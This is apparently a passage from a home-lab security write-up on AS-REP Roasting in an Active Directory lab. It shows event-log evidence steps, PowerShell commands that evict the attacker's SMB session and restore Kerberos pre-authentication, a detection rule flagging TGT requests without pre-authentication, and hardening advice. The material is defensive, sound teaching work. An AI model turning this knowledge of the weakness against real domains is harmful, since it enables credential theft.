

---

### Step 18: Forensic Document Details — Target User & Domain Verification

The target user details confirm `victim-asrep` in the `SOCLAB` domain:



---

### Step 19: Forensic Document Details — Audit Success Metadata

Event header metadata verifying Windows security event channel logging:



---

### Step 20: Event Telemetry — Logon Information & Elevated Privileges

The event message confirms `Logon Type: 3`, `Restricted Admin Mode: No`, and `Virtual Account: No`:



---

### Step 21: Event Telemetry — Account Name & Security Identifiers

System message details isolating logon ID `0x3c521c` for `victim-asrep`:



---

### Step 22: Event Telemetry — Network IP & Authentication Process Proof

Network information proving connection origin from `192.168.100.50` via `NtLmSsp`:



---

## Phase 6: Incident Response & Complete Eviction

### Step 23: Live Incident Response — Active SMB Session Eviction & Hardening on DC

Simply changing the password in Active Directory does not kill existing kernel-level SMB connections. The SOC analyst executed immediate session containment and configuration remediation:

```powershell
# 1. Audit active intruder sessions
Get-SmbSession | Where-Object { $_.ClientUserName -like "*victim-asrep*" } |
    Select-Object SessionId, ClientUserName, NumOpens

# 2. Forcibly terminate the attacker's active live session
Get-SmbSession | Where-Object { $_.ClientUserName -like "*victim-asrep*" } |
    Close-SmbSession -Force

# 3. Enforce Kerberos Pre-Authentication (Eliminate vulnerability)
Set-ADAccountControl -Identity "victim-asrep" -DoesNotRequirePreAuth $false

# 4. Reset compromised password to high-entropy string
Set-ADAccountPassword -Identity "victim-asrep" -NewPassword (ConvertTo-SecureString "IncidentSec!2026#Lock" -AsPlainText -Force)

# 5. Flush local Kerberos ticket cache
klist purge

# 6. Verify containment baseline
Get-ADUser -Identity "victim-asrep" -Properties DoesNotRequirePreAuth, PasswordLastSet |
    Select-Object SamAccountName, DoesNotRequirePreAuth, PasswordLastSet
```



*PowerShell execution showing active session eviction, pre-authentication enforcement (`DoesNotRequirePreAuth: False`), password rotation, and ticket purge.*

---

## Phase 7: Detection Rule Engineering

To automatically detect AS-REP Roasting across the enterprise, custom Rule **100117** flags any TGT request where pre-authentication was omitted (`PreAuthType = 0`):

```xml
<!-- Custom Detection Rule: AS-REP Roasting Detection -->
<group name="windows,kerberos,">
  <rule id="100117" level="10">
    <if_sid>60107</if_sid> <!-- Base Windows Security Event -->
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.resultCode">^0x0$</field>
    <field name="win.eventdata.preAuthType">^0$</field>
    <description>AS-REP Roasting Anomaly: TGT Requested with Pre-Authentication Disabled (PreAuthType=0) for $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress)</description>
    <mitre>
      <id>T1558.004</id>
    </mitre>
  </rule>
</group>
```

---

## Defensive Recommendations & Hardening

1. **Active Directory Auditing for `DONT_REQ_PREAUTH`:**
   - Regularly audit the domain for accounts with pre-authentication disabled:
     ```powershell
     Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
         Select-Object SamAccountName, Enabled, MemberOf
     ```
   - Remediate immediately by setting `-DoesNotRequirePreAuth $false`.
2. **Protected Users Security Group:**
   - Add sensitive accounts to the **Protected Users** group, which enforces Kerberos pre-authentication regardless of individual account flags.
3. **Enforce AES Encryption:**
   - Configure Kerberos policies to reject RC4 (`0x17`) ticket requests, forcing AES-128 and AES-256 ciphers.
4. **Active Session Severance in IR Playbooks:**
   - Ensure incident response runbooks include `Close-SmbSession -Force` alongside credential rotation to prevent persistent lateral access over established handles.
